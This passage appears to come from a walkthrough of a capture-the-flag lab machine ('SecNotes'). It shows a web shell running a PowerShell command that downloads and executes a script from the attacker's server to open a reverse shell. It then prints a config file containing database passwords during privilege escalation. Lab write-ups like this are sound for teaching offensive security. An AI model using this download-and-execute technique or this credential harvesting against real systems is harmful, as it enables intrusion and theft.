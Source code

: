 ![](img/2020-11-29-22-49-28.png)

![](img/2020-11-29-22-56-22.png)

I spin up a webserver in my current directory with `$ sudo python3 -m http.server 80` and then navigate to the following address to get a reverse shell.

`http://secnotes.htb:8808/cmd.php?cmd=C:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -c IEX(new-object net.webclient).downloadstring('http://10.10.14.27/shell.ps1')`

![](img/2020-11-29-22-57-34.png)

## Privilege Escalation

```
PS C:\inetpub\wwwroot> type db.php
<?php

if ($includes != 1) {
        die("ERROR: Should not access directly.");
}

/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'secnotes');
define('DB_PASSWORD', 'q8N#9Eos%JinE57tke72');
//define('DB_USERNAME', 'root');
//define('DB_PASSWORD', 'qwer1234QWER!@#$');
define('DB_NAME', 'secnotes');

/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);

// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>

```
